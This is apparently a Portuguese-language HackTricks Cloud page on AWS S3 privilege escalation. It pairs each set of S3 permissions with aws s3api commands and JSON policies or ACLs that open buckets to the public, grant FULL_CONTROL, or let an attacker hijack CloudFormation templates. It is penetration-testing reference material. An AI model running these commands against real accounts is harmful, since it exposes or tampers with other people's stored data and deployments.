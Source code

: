 # AWS - S3 Privesc

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

Um atacante com essas permissões sobre buckets interessantes pode ser capaz de sequestrar recursos e escalar privilégios.

Por exemplo, um atacante com essas **permissões sobre um bucket de cloudformation** chamado "cf-templates-nohnwfax6a6i-us-east-1" poderá sequestrar a implantação. O acesso pode ser concedido com a seguinte política:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Action":[
"s3:PutBucketNotification",
"s3:GetBucketNotification",
"s3:PutObject",
"s3:GetObject"],
"Resource":[
"arn:aws:s3:::cf-templates-*\/*",
"arn:aws:s3:::cf-templates-*"]
},
{
"Effect":"Allow",
"Action":"s3:ListAllMyBuckets",
"Resource":"*"
}]
}
```
E o sequestro é possível porque há uma **pequena janela de tempo desde o momento em que o template é enviado** para o bucket até o momento em que o **template é implantado**. Um atacante pode simplesmente criar uma **função lambda** em sua conta que será **ativada quando uma notificação de bucket for enviada**, e **sequestrar** o **conteúdo** desse **bucket**.

![](<../../../.gitbook/assets/image (174).png>)

O módulo Pacu [`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn\_\_resource\_injection) pode ser usado para automatizar esse ataque.\
Para mais informações, consulte a pesquisa original: [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

Estas são as permissões para **obter e enviar objetos para o S3**. Vários serviços dentro da AWS (e fora dela) usam armazenamento S3 para armazenar **arquivos de configuração**.\
Um atacante com **acesso de leitura** a eles pode encontrar **informações sensíveis** neles.\
Um atacante com **acesso de gravação** a eles poderia **modificar os dados para abusar de algum serviço e tentar escalar privilégios**.\
Aqui estão alguns exemplos:

* Se uma instância EC2 estiver armazenando os **dados do usuário em um bucket S3**, um atacante poderia modificá-los para **executar código arbitrário dentro da instância EC2**.

### `s3:PutBucketPolicy`

Um atacante, que precisa ser **da mesma conta**, caso contrário, o erro `The specified method is not allowed will trigger`, com essa permissão poderá conceder a si mesmo mais permissões sobre o(s) bucket(s), permitindo-lhe ler, escrever, modificar, excluir e expor buckets.
```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>

## JSON giving permissions to a user and mantaining some previous root access
{
"Id": "Policy1568185116930",
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:root"
},
"Action":"s3:ListBucket",
"Resource":"arn:aws:s3:::somebucketname"
},
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:user/username"
},
"Action":"s3:*",
"Resource":"arn:aws:s3:::somebucketname/*"
}
]
}

## JSON Public policy example
### IF THE S3 BUCKET IS PROTECTED FROM BEING PUBLICLY EXPOSED, THIS WILL THROW AN ACCESS DENIED EVEN IF YOU HAVE ENOUGH PERMISSIONS
{
"Id": "Policy1568185116930",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Stmt1568184932403",
"Action": [
"s3:ListBucket"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome",
"Principal": "*"
},
{
"Sid": "Stmt1568185007451",
"Action": [
"s3:GetObject"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome/*",
"Principal": "*"
}
]
}
```
### `s3:GetBucketAcl`, `s3:PutBucketAcl`

Um atacante poderia abusar dessas permissões para **conceder mais acesso** a buckets específicos.\
Observe que o atacante não precisa ser da mesma conta. Além disso, o acesso de gravação
```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectAcl`

Um atacante poderia abusar dessas permissões para conceder a si mesmo mais acesso a objetos específicos dentro dos buckets.
```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

Um atacante com esses privilégios deve ser capaz de definir um Acl para uma versão específica do objeto.
```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```
{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}
